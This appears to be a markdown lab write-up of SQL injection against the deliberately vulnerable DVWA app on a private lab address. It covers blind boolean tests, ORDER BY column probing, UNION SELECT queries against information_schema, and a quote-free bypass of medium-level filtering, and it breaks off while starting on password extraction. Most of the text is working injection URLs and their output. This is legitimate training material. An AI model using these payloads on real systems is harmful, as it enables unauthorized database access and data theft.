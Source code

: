### Discovering And Exploiting Blind SQL Injection

* In this section i will be going through labs on Blind SQLi
* This is the similar to error based sql injection, but the main difference is the error is not on revealed on the page.

* If i try and inject a ' into the url there will be no error message.

```
http://10.0.2.5/dvwa/vulnerabilities/sqli_blind/?id=1%27&Submit=Submit#
```

* The injection has no error message.

* So now how do we test if the page is vulnerable to SQL injection.
* We could perform true and false statements and then see how the web server reacts towards them.

* First lets identify how a valid page should respond.

```
http://10.0.2.5/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#
```

* Returns;

```
ID: 1
First name: admin
Surname: admin
```

* So now lets try and a true statement with a and statement.

```
SELECT * from users where id='1' and 1=1#'
```

* This should return true and should show the admin firstname and lastname.

```
http://10.0.2.5/dvwa/vulnerabilities/sqli_blind/?id=1%27%20and%201=1%23&Submit=Submit#
```

* Output

```
ID: 1' and 1=1#
First name: admin
Surname: admin
```

* So yes the statement is true and is executed.

* Now i'm going to try a false statement after the user id.
* If the page is not vulnerable to SQL Injection then it should display the admin details.
* If the page is vulnerable it will not reveal anything as the statement is false so the query will not executed.

```
SELECT * from users where id='1' and 1=2#'
```

* The statement above is a obvious false statement.
```
http://10.0.2.5/dvwa/vulnerabilities/sqli_blind/?id=1%27%20and%201=2%23&Submit=Submit#
```

* After i execute the statement above nothing is returned meaning that its likely vulnerable to SQL Injection.

* We can also try order by, we can order by 1 which should always be tru as there will need to column.

```
SELECT * from users where id='1' ORDER BY 1#'
```

```
http://10.0.2.5/dvwa/vulnerabilities/sqli_blind/?id=1%27%20order%20by%201%23&Submit=Submit#
```

* And we recieve the admin First name and Last name so this is vulnerable to blind SQL Injection.

```
ID: 1' order by 1#
First name: admin
Surname: admin
```

* Now we can finallly order by a large number and see if it acts the same way.
```
http://10.0.2.5/dvwa/vulnerabilities/sqli_blind/?id=1%27%20order%20by%2010000000%23&Submit=Submit#
```

* The admin Firstname and Surname is not displayed even though we selected the id =1 which means that page is vulnerable to sql injection.

* So now we can try and select data from database as we know its vulnerable to SQL injection.

* I already know there two columns in the database.
```
http://10.0.2.5/dvwa/vulnerabilities/sqli_blind/?id=1%27%20order%20by%202%23&Submit=Submit#
```

* Now im going to select data from the information_schema.
* Try and select the first two columns with a union statement.

```
http://10.0.2.5/dvwa/vulnerabilities/sqli_blind/?id=1%27%20union%20select%201,2%23&Submit=Submit#
```

* Output 

```
ID: 1' union select 1,2#
First name: admin
Surname: admin

ID: 1' union select 1,2#
First name: 1
Surname: 2
```
* This shows that columns 1 and 2 are injectable.

* Ok now we select the table names from information_schema.tables 
```
http://10.0.2.5/dvwa/vulnerabilities/sqli_blind/?id=1%27%20union%20select%20table_name,2%20from%20information_schema.tables%23&Submit=Submit#
```

* To get the tables names from the schema

* You should never rely only error based sqlinjection whenever you visit a page.

---

### Discovering More Complicated SQL Injections

* In this section we'll try to bypass some more complicated waf(web application filtering).

* So first let me set the security to medium and select id 1.

```
http://10.0.2.5/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#
```

* Here i recieve a valid response.

```
ID: 1
First name: admin
Surname: admin
```

* Ok so now let me try and add a single quote after the id.
```
SELECT * FROM users where id='1''
```

* And i recieve a error.

```
http://10.0.2.5/dvwa/vulnerabilities/sqli/?id=1%27&Submit=Submit#
```

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1
``

* This error is slightly different to other error based injection.

* So if i try to follow up with a and statement.

```  
http://10.0.2.5/dvwa/vulnerabilities/sqli/?id=1%27%20and%201=1%23&Submit=Submit#
```

* I still recieve the same error message 

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\' and 1=1#' at line 1
```

* Now let me try and remove the quote but leave the and 1=1# statement there.

```
http://10.0.2.5/dvwa/vulnerabilities/sqli/?id=1%20and%201=1%23&Submit=Submit#
```

* So there is no error message and i recieve details of the admin user.

```
ID: 1 and 1=1#
First name: admin
Surname: admin
```

* Now let me finally try a false statement to see if the admin user details is not shown.
* This will prove that the page is vulnerable to sql injection.

```
http://10.0.2.5/dvwa/vulnerabilities/sqli/?id=1%20and%201=2%23&Submit=Submit#
```

* The page is blank with no admin user details meaning the web page is vulnerable to sql injection.
* Now let me use the union select statement.

```
http://10.0.2.5/dvwa/vulnerabilities/sqli/?id=1%20union%20select%201,2%23&Submit=Submit#
```

* Output

```
ID: 1 union select 1,2#
First name: 1
Surname: 2
```

* Now get the table names from information schema.

```
http://10.0.2.5/dvwa/vulnerabilities/sqli/?id=1%20union%20select%201,table_name%20from%20information_schema.tables%23&Submit=Submit#
```

* We recieve the table names from the information_schema db.

---

### Extracting Data (Passwords)- By Exploiting A More Difficult SQL Injection

* Now in this section let me list the columns in the dvwa table.

```
http://10.0.2.5/dvwa/vulnerabilities/sqli/?id=1%20union%20select%20table_name,2%20from%20information_schema.tables%20where%20table_name=%27dvwa%27%23&Submit=Submit#
```

* But i recieve a error.
```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'dvwa\'#' at line 1
```

* We need some way of bypassing this filtering.

 
